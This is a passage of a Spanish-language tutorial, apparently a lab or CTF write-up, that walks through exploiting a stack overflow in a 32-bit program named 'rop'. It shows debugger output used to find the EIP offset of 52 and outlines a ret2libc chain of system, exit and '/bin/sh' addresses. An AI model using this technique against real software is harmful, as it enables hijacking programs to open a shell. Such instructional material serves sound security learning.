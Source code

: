 ```bash
$ecx   : 0x0       
$edx   : 0x0       
$esp   : 0xffffd080  →  "oaaapaaaqaaaraaasaa"
$ebp   : 0x6161616d ("maaa"?)
$esi   : 0xf7f9f000  →  0x001e4d6c
$edi   : 0xf7f9f000  →  0x001e4d6c
$eip   : 0x6161616e ("naaa"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────────────── stack ────
0xffffd080│+0x0000: "oaaapaaaqaaaraaasaa"	 ← $esp
0xffffd084│+0x0004: "paaaqaaaraaasaa"
0xffffd088│+0x0008: "qaaaraaasaa"
0xffffd08c│+0x000c: "raaasaa"
0xffffd090│+0x0010: 0x00616173 ("saa"?)
0xffffd094│+0x0014: 0x00000000
0xffffd098│+0x0018: 0x00000000
0xffffd09c│+0x001c: 0xf7dd8e46  →  <__libc_start_main+262> add esp, 0x10
─────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161616e
─────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "rop", stopped 0x6161616e in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────── trace ────
────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern offset $eip

[+] Searching for '$eip'
[+] Found at offset 52 (little-endian search) likely
[+] Found at offset 49 (big-endian search)
```

Bien, lo que hemos hecho ha sido **generar una cadena especial** con `pattern create` para pasarsela al programa.

Cuando el programa **corrompió**, usamos la utilidad `pattern offset` para que cogiera el valor del `EIP` (que era 'naaa') y lo **buscara** en la cadena de texto que habíamos generado. 

Una vez encontrado, **contaría los carácteres** hasta llegar a esa parte de la cadena.

Ahora sabemos que el `offset` es de 52, es decir, hay que **introducir 52 caracteres** para que lo que introduzcamos luego entre en el **registro** `EIP`.

### 2º paso: Recolecta de direcciones de memoria

El segundo paso consiste en ir **recolectando direcciones de memoria** que hacen falta para hacer el `ret2libc`.

La estructura que vamos a utilizar para hacer el `ret2libc` es así: `ret2libc = system_addr + exit_addr + bin_sh_addr`

Necesitamos las **direcciones de memoria** de `system, exit y /bin/sh` a parte de la **direccion base** de `libc`
